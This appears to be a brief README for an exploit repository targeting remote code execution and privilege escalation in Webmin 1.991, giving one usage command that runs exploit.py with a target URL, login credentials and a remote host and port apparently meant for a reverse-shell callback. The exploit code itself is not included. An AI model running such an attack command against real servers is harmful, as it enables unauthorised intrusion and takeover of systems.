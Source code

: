 # rce_webmin
RCE and privilege escalation webmin version 1.991


# poc:

```bash
/usr/bin/env /bin/python ./exploit.py -u 'https://localhost:10000' -un 'safeusername' -pw 'safeuserpassword' -rh 'localhost' -rp 4445
```
